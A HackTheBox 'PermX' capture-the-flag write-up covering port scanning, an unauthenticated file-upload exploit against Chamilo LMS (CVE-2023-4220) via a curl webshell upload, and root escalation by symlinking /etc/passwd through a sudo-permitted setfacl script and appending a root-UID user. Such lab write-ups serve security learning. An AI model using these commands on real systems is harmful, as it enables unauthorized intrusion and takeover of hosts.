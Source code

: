 --------------------

### CTF: HACKTHEBOX
### LAB: PERMX

--------------------

![image](https://github.com/user-attachments/assets/75d9e644-9cab-4a9c-9ad7-835f15977ac6)

--------------------

### RECONNAISSANCE

- Rustscan's output

       ❯ rustscan -a 10.10.11.23 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.11.23:22
      Open 10.10.11.23:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 10:18 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      Initiating Ping Scan at 10:18
      Scanning 10.10.11.23 [2 ports]
      Completed Ping Scan at 10:18, 0.21s elapsed (1 total hosts)
      Initiating Connect Scan at 10:18
      Scanning permx.htb (10.10.11.23) [2 ports]
      Discovered open port 80/tcp on 10.10.11.23
      Discovered open port 22/tcp on 10.10.11.23
      Completed Connect Scan at 10:18, 0.21s elapsed (2 total ports)
      Initiating Service scan at 10:18
      Scanning 2 services on permx.htb (10.10.11.23)
      Completed Service scan at 10:18, 6.81s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.11.23.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 7.61s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 3.17s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      Nmap scan report for permx.htb (10.10.11.23)
      Host is up, received conn-refused (0.21s latency).
      Scanned at 2024-09-03 10:18:10 EDT for 18s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAyYzjPGuVga97Y5vl5BajgMpjiGqUWp23U2DO9Kij5AhK3lyZFq/rroiDu7zYpMTCkFAk0fICBScfnuLHi6NOI=
      |   256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP8A41tX6hHpQeDLNhKf2QuBM7kqwhIBXGZ4jiOsbYCI
      80/tcp open  http    syn-ack Apache httpd 2.4.52
      |_http-server-header: Apache/2.4.52 (Ubuntu)
      | http-methods: 
      |_  Supported Methods: POST OPTIONS HEAD GET
      |_http-title: eLEARNING
      Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
      
      NSE: Script Post-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      Read data files from: /usr/bin/../share/nmap
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 20.72 seconds

- Subdomain enumeration with ffuf spots `lms`,we don't need to check `www` it is just the normal `permx.htb` page

![image](https://github.com/user-attachments/assets/d0aa315e-6154-4454-902b-a92b7a6d86f5)

- Subdomain `lms.permx.htb` hosts a learning management portal `Chamilo`

![image](https://github.com/user-attachments/assets/41ce957a-202a-4200-861b-8ae530530ff5)

- Chamilo is vulnerable to unauthenticated file upload as explained in this [github repo](https://github.com/dollarboysushil/Chamilo-LMS-Unauthenticated-File-Upload-CVE-2023-4220)

--------------------------

### Exploiting Chamilo with curl

- Php page `/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported` allows us to upload any file type, we can upload a webshell
to execute commands

- I uploaded the file with curl

      ❯ curl -F "bigUploadFile=@<shell filename>" "http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported"
      The file has successfully been uploaded.%

- Access your web shell at route `/main/inc/lib/javascript/bigupload/files/[filename]`

![image](https://github.com/user-attachments/assets/96ad56c7-1103-4f1d-8139-609a243ac5e8)

- Shell access

![image](https://github.com/user-attachments/assets/6ce94f61-5a54-44cb-880b-7555fe3c87ee)
 
### USER MTZ

- I ran linpeas and discovered a password in a db config file. I was able to login to user `mtz` with the password

![image](https://github.com/user-attachments/assets/87932ed3-46d3-4532-88c6-c5d46198159c)

- User `mtz` access

![image](https://github.com/user-attachments/assets/ad7c7cca-a266-4708-8aa3-089ef80f3711)

---------------------

### PRIVESC with SETFACL

- I ran `sudo -l` and noticed a rule that user `mtz` can run a sh script `/opt/acl.sh` as root without passwd

![image](https://github.com/user-attachments/assets/7f748f6b-1d7e-439f-8d01-d334b46c64a2)

### Acl.sh

- The script's usage syntax is `acl.sh [user] [perm] [file]`
- The target file must be in `/home/mtz/*` file directory and must not contain `..` to prevent path traversal.

      if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
        /usr/bin/echo "Access denied."
        exit 1
- Then,this code checks if it is a file

        # Check if the path is a file
      if [ ! -f "$target" ]; then
          /usr/bin/echo "Target must be a file."
          exit 1
      fi
- Then, it runs `setfacl` to grant a user specific permissions in respect to a file.

      /usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

----------------------

### Exploiting the ACL script

- We can exploit this by creating symbolic link of `/etc/passwd` in mtz's directory.After creating the symbolic link wiith write access to `/etc/passwd`,
we can edit and add a new user hash with root privileges.

![image](https://github.com/user-attachments/assets/57074117-d2e1-42fb-a2a7-8ee866fc06fd)

- We will copy this root hash to password to the passwd symbolic link,you can generate an hash with `openssl passwd [password]`.
This hash's password is `password123`.

      sensei:$1$1YY732V9$Irh.HtaGlscLmIz6SLQgM/:0:0:root:/root:/bin/bash

- Editing the passwd file

![image](https://github.com/user-attachments/assets/8e726103-03c1-490d-b623-d96d97c567dc)

- It reflects in `/etc/passwd`

![image](https://github.com/user-attachments/assets/93062d63-b64a-420f-9097-b24c94ce3bbb)

- You can automate it with this

       ln -s /etc/passwd ~/passwd
       sudo -u root /opt/acl.sh mtz rwx /home/mtz/passwd
       echo "sensei:\$1\$1YY732V9\$Irh.HtaGlscLmIz6SLQgM/:0:0:root:/root:/bin/bash" >> /home/mtz/passwd
       /usr/bin/echo "enter 'password123'"
       su sensei


- Access to user `sensei`

![image](https://github.com/user-attachments/assets/d1769749-3965-4804-a021-3b0962f6ed38)

- Root

![image](https://github.com/user-attachments/assets/4150d4c0-7d05-4ee1-a0da-9153e2b2866a)

-----------------------

### THANKS FOR READING!!!!

------------------------

### REFERENCES:

- [Chamilo](https://github.com/dollarboysushil/Chamilo-LMS-Unauthenticated-File-Upload-CVE-2023-4220)
- [My Exploit for Chamilo](https://github.com/SENSEiXENUS/senseixenus.github.io/blob/main/posts/ctf/HTB/scripts/ChamiloCVE.py)

-------------------------


  



